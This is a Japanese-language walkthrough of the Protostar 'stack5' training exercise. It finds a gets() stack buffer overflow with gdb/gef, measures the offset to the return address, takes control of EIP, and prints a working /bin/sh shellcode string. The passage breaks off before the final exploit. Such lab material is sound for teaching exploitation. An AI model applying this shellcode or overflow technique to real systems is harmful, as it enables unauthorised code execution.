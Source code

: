 <!-- TITLE: Stack 5 -->
<!-- SUBTITLE: A quick summary of Stack 5 -->

# 問題

## 問題のパス

`/opt/protostar/bin/stack5`

## 問題のソースコード

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

非常にシンプルな仕上がり

# ファイルのコピー(scp)

```shell
$ scp Protostar:/opt/protostar/bin/stack5 .
$ ls | grep stack5
stack5
```

このように`scp`してローカルで基礎解析をしたほうが楽

# GDB解析 その1

## バッファオーバーフローを試す

例によって[`gef`](https://github.com/hugsy/gef/)を使う

```shell
$ which gef
gef: aliased to gdb -q --ix $HOME/gef/gef.py
$ gef ./stack5
GEF for linux ready, type `gef' to start, `gef config' to configure
66 commands loaded for GDB 7.11.1 using Python engine 3.5
⋮
Reading symbols from ./stack5...done.
gef➤  disas main
Dump of assembler code for function main:
   0x080483c4 <+0>:	push   ebp
   0x080483c5 <+1>:	mov    ebp,esp
   0x080483c7 <+3>:	and    esp,0xfffffff0
   0x080483ca <+6>:	sub    esp,0x50
   0x080483cd <+9>:	lea    eax,[esp+0x10]
   0x080483d1 <+13>:	mov    DWORD PTR [esp],eax
   0x080483d4 <+16>:	call   0x80482e8 <gets@plt>
   0x080483d9 <+21>:	leave  
   0x080483da <+22>:	ret    
End of assembler dump.
```

コードからもわかるとおり、`gets`関数が入力されたバイト数のチェックをしないため、バッファオーバーフローの脆弱性が存在する
breakpointを`gets`呼び出しの直後に貼って、文字列パターンを生成する
このパターンは、のちにオフセットの長さを測るのに用いる

```shell
gef➤  b *main+21
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
gef➤  pattern create 128
[+] Generating a pattern of 128 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab
[+] Saved as '$_gef0'
gef➤  r <<< $(echo -n 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab')
⋮
gef➤  c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
⋮
$eip   : 0x61616174 ("taaa"?)
⋮
```

`$eip` (次の命令のアドレスを格納するレジスタ) が明らかに通常ではありえない値に書き換えられていることがわかった

## オフセットの値

次にこの*"taaa"*の文字列が`$eax`からどれほどアドレスが離れているかを調べる

```shell
gef➤  pattern search 0x61616174
[+] Searching '0x61616174'
[+] Found at offset 76 (little-endian search) likely
[+] Found at offset 73 (big-endian search) 
```

このバイナリはリトルエンディアンである

```shell
gef➤  elf-info 
Magic                 : 7f 45 4c 46
Class                 : 0x1 - 32-bit
Endianness            : 0x1 - Little-Endian
Version               : 0x1
OS ABI                : 0x0 - System V
ABI Version           : 0x0
Type                  : 0x2 - Executable
Machine               : 0x3 - x86
Program Header Table  : 0x00000034
Section Header Table  : 0x00004d28
Header Table          : 0x00000034
ELF Version           : 0x1
Header size           : 0 (0x0)
Entry point           : 0x08048310
``` 

よって、オフセットは **76**


# GDB解析 その2
先ほどとは入力文字列を変えて実行してみる
オフセットが **76** なので、

```shell
gef➤  r <<< $(python -c 'print "A"*76 + "\xef\xbe\xad\xde" + "B"*128')
Starting program: /home/mkm/Develop/protostar/bin/stack5 <<< $(python -c 'print "A"*76 + "\xef\xbe\xad\xde" + "B"*128')

Breakpoint 1, main (argc=0x42424242, argv=0x42424242) at stack5/stack5.c:11
⋮
gef➤  telescope $esp l30
0xffffd270│+0x00: 0xffffd280  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"	 ← $esp
0xffffd274│+0x04: 0x0000002f ("/"?)
0xffffd278│+0x08: 0xf7e05dc8  →  0x00002b76 ("v+"?)
0xffffd27c│+0x0c: 0xf7fd31b0  →  0xf7df9000  →  0x464c457f
0xffffd280│+0x10: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"	 ← $eax
0xffffd284│+0x14: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd288│+0x18: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd28c│+0x1c: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd290│+0x20: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd294│+0x24: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd298│+0x28: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd29c│+0x2c: 0x41414141
0xffffd2a0│+0x30: 0x41414141
0xffffd2a4│+0x34: 0x41414141
0xffffd2a8│+0x38: 0x41414141
0xffffd2ac│+0x3c: 0x41414141
0xffffd2b0│+0x40: 0x41414141
0xffffd2b4│+0x44: 0x41414141
0xffffd2b8│+0x48: 0x41414141
0xffffd2bc│+0x4c: 0x41414141
0xffffd2c0│+0x50: 0x41414141
0xffffd2c4│+0x54: 0x41414141
0xffffd2c8│+0x58: 0x41414141	 ← $ebp
0xffffd2d0│+0x60: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2d4│+0x64: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2d8│+0x68: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2dc│+0x6c: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2e0│+0x70: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2e4│+0x74: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
gef➤  c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
⋮
$eip   : 0xdeadbeef
⋮
```

このように、適切なオフセットとパディング(今回は*"A"*)を用いることで、`$eip`を任意の値に書き換えられることがわかった

## どこに書き換えるか？

`$eip`を自由に書き換えられるということは、次に飛ばすアドレスを好きにできることである
そこで、`$eip`をスタックポインタのアドレスの直後に書き換えて、そこ(`$esp+4`)にshellcodeを仕込んで見る

ただし、`gets`を用いた際に新たにshellを開こうとすると、すぐにターミナルが閉じてしまいコマンドを入力できない
そこで、`/dev/tty`を再度開いたのちに、`/bin/sh`を起動させる
shellcodeは[exploit DB](https://www.exploit-db.com/exploits/13357/)のものを使用した

```python
shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
```

まずこのようにして実行してコアダンプを取得

```shell
% ./stack5 <<< $(python -c 'print "A"*76 + "\xef\xbe\xad\xde" + "B"*128')
```